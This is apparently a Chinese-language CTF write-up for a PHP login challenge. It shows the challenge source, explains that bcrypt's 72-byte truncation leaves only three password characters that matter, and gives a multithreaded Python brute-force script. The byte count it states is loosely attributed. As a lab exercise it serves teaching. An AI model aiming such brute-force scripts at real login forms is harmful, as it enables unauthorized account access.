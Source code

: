 index.php

```php
<?php
function generate_uuid_v4() {
    $data = random_bytes(16);

    $data[6] = chr(ord($data[6]) & 0x0f | 0x40);
    $data[8] = chr(ord($data[8]) & 0x3f | 0x80);

    return vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($data), 4));
}

error_reporting(0);
ini_set('display_errors', 0);

$flag = file_get_contents('/flag.txt');
session_start();

$usernameAdmin = 'admin';
$passwordAdmin = generate_uuid_v4();

$entropy = "My-password-is-super-secure-that-You'd-never-guess-it-Hia-hiahia";

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    $hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);

    if ($usernameAdmin === $username && password_verify($username . $entropy . $password, $hash)) {
        $_SESSION['logged_in'] = true;
    }
}
?>
```

这是题目给的php代码，可以注意到密码用的是`PASSWORD_BCRYPT`，这个方法用72长度的加密，题目中的`entropy`是69字节，那么3字节是可以爆破的，多线程爆破就行

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor

url = ""
combinations = string.ascii_lowercase + string.digits

password = []
for i in combinations:
    for j in combinations:
        for k in combinations:
            password.append(f"{i}{j}{k}")


def try_password(password_attempt):
    r = requests.post(url, data={"username": "admin", "password": password_attempt})
    if "MOCSCTF{" in r.text:
        return f"Found flag: {r.text}"
    else:
        return f"{password_attempt} is not right"


def start_threads():
    with ThreadPoolExecutor(max_workers=10) as executor:
        results = executor.map(try_password, password)
```